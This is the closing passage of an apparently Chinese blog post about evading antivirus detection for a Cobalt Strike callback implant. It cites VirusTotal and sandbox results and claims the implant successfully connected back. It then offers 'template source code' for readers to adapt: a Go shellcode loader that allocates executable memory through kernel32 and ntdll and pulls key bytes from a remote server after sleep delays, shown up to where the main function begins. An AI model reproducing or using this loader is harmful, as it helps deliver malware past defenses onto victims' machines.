 某 60

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCV8nlKlTDpib5oNpYWsuFvsvTqj49iaLJ13tOHzviaOPNulnKGwkFAvWH033TFP0neABicPuqeLyTWyw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCV8nlKlTDpib5oNpYWsuFvsXa7NPz5W7MV54zBPoTeJU0OhiaTtYGIt5Pe5aGWrfemdJFgTwPtuBew/640?wx_fmt=png)

VT

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCV8nlKlTDpib5oNpYWsuFvsuR71HmibMic3kr7aMiaNQpicbzWeFu4SPNLgMbqJe7UvAWLQTkznzbC9NQ/640?wx_fmt=png)

沙箱我就不截图了，由于我的 VPS 被标黑了，所以情报过不去，但是从沙箱的角度来看是没有检测出来的，大家可以自行测试。

最后成功上线：

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZCV8nlKlTDpib5oNpYWsuFvsALxhFwWJ6RkedurQOUtUnnwzMiaWciaRAAZHTdjuLt8EsupHZEgUAZUw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/toroKEibicmZBzvSicIgIV5Qc7btROE3LoSnTokjLGNZwUrKMNWWiankMu9UQVH05bgJ33COlZGWA3E3SKdND6stkw/640?wx_fmt=png)

**0x05 summary 总结**

作为一个免杀萌新，记录一下学习，免杀的手段还有很多，比如流量对抗、防逆向代码对抗、威胁情报等等路还很长，顺便提个醒，在真实环境中，这种回连木马除了要过终端的防御之外，还得过流量检测设备，目前厂商的设备基本具备检测 3.14、4.0 版本（其他没有测试过）的 CS 流量，但是如果修改 CS 的特征的话，还是可以规避检测的。

贴一下模板源代码吧，大家可以自行修改参数进行使用：

```
package main
import (
  "syscall"
  "unsafe"
  "time"
    "encoding/hex"
    "io/ioutil"
    "net/http"
)
const (
  MEM_COMMIT             = 0x1000
  MEM_RESERVE            = 0x2000
  PAGE_EXECUTE_READWRITE = 0x40
)
var (
  kernel32      = syscall.MustLoadDLL("kernel32.dll")
  ntdll         = syscall.MustLoadDLL("ntdll.dll")
  VirtualAlloc  = kernel32.MustFindProc("VirtualAlloc")
  RtlCopyMemory = ntdll.MustFindProc("RtlMoveMemory")
)
func keys1() byte {
  time.Sleep(5 * time.Second)
  resp, _ := http.Get("http://IP/https/2.txt")
    defer resp.Body.Close()
    body, _ := ioutil.ReadAll(resp.Body)
    var tmp = string(body)
    x1, _ := hex.DecodeString(tmp)
    return x1[0]
}
func keys2() byte {
  time.Sleep(5 * time.Second)
  resp, _ := http.Get("http://IP/https/3.txt")
    defer resp.Body.Close()
    body, _ := ioutil.ReadAll(resp.Body)
    var tmp = string(body)
    x1, _ := hex.DecodeString(tmp)
    return x1[0]
}
func main() {
  time.Sleep(5 * time.Second)
```